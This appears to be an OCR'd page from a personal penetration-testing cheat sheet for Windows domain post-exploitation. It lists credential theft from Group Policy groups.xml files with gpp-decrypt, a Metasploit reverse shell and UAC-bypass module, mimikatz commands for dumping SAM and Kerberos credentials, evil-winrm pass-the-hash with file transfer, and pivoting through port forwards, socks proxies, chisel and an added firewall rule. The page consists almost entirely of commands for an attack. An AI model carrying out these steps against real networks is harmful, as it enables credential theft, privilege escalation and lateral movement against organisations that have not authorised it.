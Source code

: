 	Creds stealing:

		AD policies - %USERDNSDOMAIN%\Policies
		Sysvol share - %LOGONSERVE%\Sysvol

		Than you can find user creation policies by searching for groups.xml files in the policies directory.
		System administrators usually use AD policies to deploy a local administrator account in a domain environment.

		find groups.xml in {...}\Machine\Preferences\Groups\Groups.xml
		then decrypt the password with gpp-decrypt.

		then you can run execute a reverse shell by using post/windows/manage/run_as

		then if getsystem fails use -> exploit/windows/local/bypassuac_injection


		load mimikatz
		kerberos - try to harvest users and passwords
		wdigest - try harde
		privilege::debug
		token::elevate
		lsadump::sam

		evil-winrm:

			evil-winrm -u <user> -H <hash> -i <IP> (or -p for password instead of hash) -s <include scripts path>

			upload LOCAL_FILEPATH REMOTE_FILEPATH
			download REMOTE_FILEPATH LOCAL_FILEPATH
			include Empire scripts from - /opt/Empire/data/module_source/<path>/<to>/<script>

		port forward for RDP:

			portfwd add -L 127.0.0.1 -l 3389 -r <remote machine> -p 3389
			rdesktop -u <domain>\<user> -p "<password>" 127.0.0.1
			
		file share with RDP:

			xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share


		socks4a & proxychains:

			socks4a:
			use auxiliary/server/socks4a
			set SRVHOST as LHOST, and SRVPORT as the port of the pivot.

			proxychains:
			set proxychains to connect through the newly made socks4 proxy.
			run commands freely.

		chisel:

			chisel server -p <SRVPORT> --socks5
			chisel client <RHOST>:<SRVPORT> <PROXY_PORT>:socks

			netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=<PORT>
